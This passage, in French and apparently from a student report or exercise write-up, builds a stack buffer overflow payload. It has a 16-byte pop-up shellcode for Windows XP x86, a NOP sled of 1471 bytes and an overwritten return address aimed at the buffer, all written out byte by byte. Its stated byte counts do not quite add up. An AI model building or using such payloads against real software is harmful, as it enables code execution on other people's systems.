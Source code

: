 \subsection{Design your shellcode}
Afin de concevoir le shellcode, nous devons écrire sur 1488 octets. Nous utiliserons ici un shellcode trouvé sur internet permettant d'ouvrir une pop-up. Ce shellcode particulier a été conçu pour les systèmes Windows XP Pro x86 uniquement. Sa taille est de 16 octets et est de la forme suivante :
\begin{verbatim}
  \xB9\x38\xDD\x82\x7C\x33\xC0\xBB\xD8\x0A\x86\x7C\x51\x50\xFF\xd3
\end{verbatim}
Nous voulons ici réécrire sur la valeur de ret l'adresse 0006F9A4. Cette adresse correspond au début de l'adresse du buffer cible, celui qui contiendra notre shellcode. Nous allons donc écrire cette adresse à la suite du shellcode :
\begin{verbatim}
 \xB9\x38\xDD\x82\x7C\x33\xC0\xBB\xD8\x0A\x86\x7C\x51\x50\xFF\xd3
 \xa4\xf9\x06\x00
\end{verbatim}
Cependant, pour que notre code puisse dépasser la taille du buffer et ainsi écrire sur la valeur de \textit{Saved eip}, nous devons avoir un code de 1488 octets. Pour cela, nous rajoutons 1471 octets de \textit{nop}(\textbackslash\verb|x90|). Ainsi, nous obtenons le shellcode final suivant :
\begin{verbatim}
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
                               .
                               .
                               .
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
 \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xB9\x38\xDD
 \x82\x7C\x33\xC0\xBB\xD8\x0A\x86\x7C\x51\x50\xFF\xd3\xa4\xf9\x06
 \x00
\end{verbatim}
Avec 1471 fois l'octet \textit{nop}.
